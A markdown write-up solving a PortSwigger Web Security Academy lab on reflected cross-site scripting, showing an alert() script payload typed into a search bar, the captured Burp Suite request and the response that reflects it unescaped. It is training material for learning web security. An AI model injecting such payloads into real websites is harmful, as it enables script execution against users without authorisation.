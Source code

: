 ```yaml
---
title: >
  Solution to Lab: Reflected XSS into HTML context with nothing encoded
---
```


The following is a solution to [Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded).

In the UI of the lab, enter the following payload into the search bar and click Search:
`<script>alert("howdy");</script>`

This step is demonstrated in the screenshot below:
![A screenshot of the search bar with the alert("howdy"); payload as the search term](/docs/assets/alert() poc 1.png)

As a result, an alert box appears in the UI, with the text from the alert() payload. This is demonstrated in the screenshot below:
![A screenshot of the alert box with the message "howdy"](/docs/assets/alert() poc 2.png)

The HTTP request associated with this action appears below, as pulled from the HTTP history section of the Proxy tab in Burp Suite.

~~~
GET /?search=%3Cscript%3Ealert%28%22howdy%22%29%3B%3C%2Fscript%3E HTTP/2
Host: 0ade007003023308825a84e400020013.web-security-academy.net
Cookie: [redacted]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ade007003023308825a84e400020013.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


~~~

The following is a snippet of the HTTP response to the above request.

~~~
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 4876

<!DOCTYPE html>
<html>
...
<h1>0 search results for '<script>alert("howdy");</script>'</h1>
...
~~~

This shows that the application reflected the user input inside of the response.